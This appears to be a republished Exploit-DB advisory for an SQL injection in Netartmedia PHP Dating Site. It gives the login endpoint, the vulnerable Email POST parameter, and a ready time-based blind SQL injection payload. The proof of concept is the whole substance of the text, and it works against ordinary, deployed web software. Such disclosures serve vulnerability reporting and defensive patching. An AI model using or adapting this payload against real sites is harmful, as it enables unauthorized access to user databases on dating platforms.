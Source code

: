 ```yaml
---
layout:     post
title:      "Netartmedia Php Dating Site - SQL Injection"
date:       2019-03-20 12:04
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, exploit-db]
---
```

# Exploit Title: Netartmedia Php Dating Site - SQL Injection
# Date: 19.03.2019
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: https://www.netartmedia.net/datingsite/
# Demo Site: https://www.phpscriptdemos.com/dating/
# Version: Lastest
# Tested on: Kali Linux
# CVE: N/A
# Description: PHP Dating Site is a complete web system for creating
advanced and modern online dating websites.

 ----- PoC SQLi -----

Request: http://localhost/[PATH]/loginaction.php
Parameter: Email (POST)
Payload: Email=0'XOR(if(now()=sysdate()%2Csleep(0)%2C0))XOR'Z&Password=g00dPa%24%24w0rD&lang=en&mod=login
